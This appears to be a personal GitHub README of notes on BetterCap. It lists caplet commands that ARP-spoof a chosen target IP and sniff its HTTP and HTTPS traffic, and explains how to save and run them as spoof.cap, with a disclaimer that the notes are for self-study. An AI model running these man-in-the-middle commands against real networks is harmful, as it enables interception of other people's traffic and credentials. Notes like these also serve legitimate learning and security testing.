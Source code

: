 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />

## To start with the program

Firstally install the bettercap if not installed yet. To check write the bettercap hepl command `bettercap --help`
</br>Then to start the bettercap with the below command.
<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap - http://

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target `target IP`
</br>arp.spoof on
</br>net.sniff on

## spoof.cap - https://

net.probe on
</br>net.recon on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target `target IP`
</br>arp.spoof on
</br>set net.sniff.local true
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the `target_IP` and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>

